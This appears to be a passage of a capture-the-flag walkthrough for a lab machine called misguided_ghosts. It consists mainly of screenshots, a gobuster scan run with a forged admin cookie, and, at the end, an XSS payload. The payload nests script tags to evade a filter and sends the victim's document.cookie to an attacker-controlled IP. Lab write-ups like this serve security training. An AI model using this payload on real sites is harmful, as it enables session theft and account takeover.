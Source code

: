 <br>
<br>

<img width="1046" height="200" alt="image" src="https://github.com/user-attachments/assets/a47fe2ef-5299-4d5b-a48c-8fbf8a2ebf00" />

<br>
<br>

<img width="1024" height="462" alt="image" src="https://github.com/user-attachments/assets/150d288a-baf6-430e-9764-bf962e2010d2" />


<br>
<br>

<img width="1054" height="331" alt="image" src="https://github.com/user-attachments/assets/77c6a4a7-06e2-4bb5-aac2-cbea17d0d14f" />

<br>
<br>

<img width="1045" height="311" alt="image" src="https://github.com/user-attachments/assets/380b9a14-30e8-4f08-8c83-2b09954c4009" />

<br>
<br>

<img width="1036" height="469" alt="image" src="https://github.com/user-attachments/assets/9ca9b5f4-f543-4712-9e06-f008e762ed88" />

<br>
<br>


<h2>gobuster</h2>

```bash
:~# gobuster dir -u https://misguided_ghosts.thm:8080/ -w /usr/share/dirb/wordlists/common.txt -t 80 -e -q -c "login=hayley_is_admin" -k 2>/dev/null
https://misguided_ghosts.thm:8080/console              (Status: 200) [Size: 1985]
https://misguided_ghosts.thm:8080/dashboard            (Status: 200) [Size: 1215]
https://misguided_ghosts.thm:8080/login                (Status: 302) [Size: 227] [--> https://misguided_ghosts.thm:8080/dashboard]
https://misguided_ghosts.thm:8080/photos               (Status: 200) [Size: 629]
```

<h2>/photos</h2>

<img width="1056" height="186" alt="image" src="https://github.com/user-attachments/assets/766020d4-4f2d-4141-89e5-b162d112b30b" />


<img width="1040" height="112" alt="image" src="https://github.com/user-attachments/assets/99193bee-7f4b-45b6-ba17-0479e0f7c504" />


<p>Title:</p>

```bash
&lt;sscriptcript&gt;var i = new Image();i.src = "http://xx.xxx.xx.xx:8000/" + document.cookie;&lt;/sscriptcript&gt;
```

